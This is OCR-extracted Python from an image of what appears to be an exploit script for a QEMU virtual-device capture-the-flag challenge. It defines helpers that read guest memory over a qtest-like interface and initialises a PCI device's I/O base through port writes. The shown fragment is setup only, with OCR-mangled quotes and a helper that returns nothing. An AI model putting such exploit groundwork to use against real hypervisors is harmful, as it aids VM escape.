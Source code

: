     data = vm_cmd(“b64read “+hex(addr)+” “+hex(size))

    #print(“data :”,data)

    return base64.b64decode(data[3:])

​

def readq(addr):

    ”’

    s.sendline(“readq “+hex(addr))

    s.recvuntil(“OK”)

    s.recvuntil(“OK”)

    ”’

    vm_cmd(“readq “+hex(addr))

    return 

​

#s.recvuntil(“OPENED”)

base_io = 0x23300000

#init pci

”’

s.sendline(“outl 0xCF8 2147487760”)

s.recvuntil(“OK”)

s.recvuntil(“OK”)

s.sendline(“outl 0xCFC 0x23300000”)

s.recvuntil(“OK”)

s.recvuntil(“OK”)

s.sendline(“outl 0xCF8 2147487748”)

s.recvuntil(“OK”)

s.recvuntil(“OK”)

s.sendline(“outl 0xCFC 6”)

s.recvuntil(“OK”)

s.recvuntil(“OK”)

”’

vm_cmd(“outl 0xCF8 2147487760”)

vm_cmd(“outl 0xCFC 0x23300000”)

vm_cmd(“outl 0xCF8 2147487748”)
